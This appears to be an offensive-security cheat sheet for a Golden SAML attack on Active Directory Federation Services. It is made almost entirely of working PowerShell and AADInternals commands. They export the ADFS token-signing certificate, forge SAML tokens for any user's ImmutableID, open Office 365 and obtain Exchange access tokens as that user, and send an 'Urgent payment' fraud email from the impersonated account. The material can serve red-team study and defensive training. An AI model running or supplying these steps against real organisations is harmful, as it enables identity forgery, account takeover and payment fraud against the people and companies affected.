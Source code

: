 ### Federation-ADFS
- ADFS = Active Directory Federation Services
- Golden SAML Attack

#### Get the ImmutableID
```
[System.Convert]::ToBase64String((Get-ADUser -Identity onpremuser | select -ExpandProperty ObjectGUID).tobytearray())
```

#### Get the AD FS identifier issuer:
```
Get-AdfsProperties | select identifier
```

#### Can check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
```
Get-MsolDomainFederationSettings -DomainName <DOMAIN> | select IssuerUri
```

#### Extract the ADFS token signing certificate
- If no file name is given, the certificate is exported to the current directory as ADFSSigningCertificate.pfx with empty pfx password.
```
Import-Module .\AADInternals.psd1
Export-AADIntADFSSigningCertificate
```

#### Access cloud apps as any user
```
Open-AADIntOffice365Portal -ImmutableID <IMMUTABLE ID> -Issuer <ISSUER> -PfxFileName <PATH TO ADFSSigningCertificate.pfx> -Verbose
```

#### Create SAML Token
```
$saml=New-AADIntSAMLToken -ImmutableID <IMMUTABLE ID> -PfxFileName <PATH TO ADFSSigningCertificate.pfx> -PfxPassword "" -Issuer <ISSUER>
```

#### Get OAUTH access token used with AADInternal functions
```
$at=Get-AADIntAccessTokenForEXO -SAMLToken $saml
```

#### Send a message using "Outlook"
```
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```

### Creating tokens for cloud-only users
#### Create a realistic ImmutableID
```
$ImmutableID = [System.Convert]::ToBase64String((New-Guid).tobytearray())
```
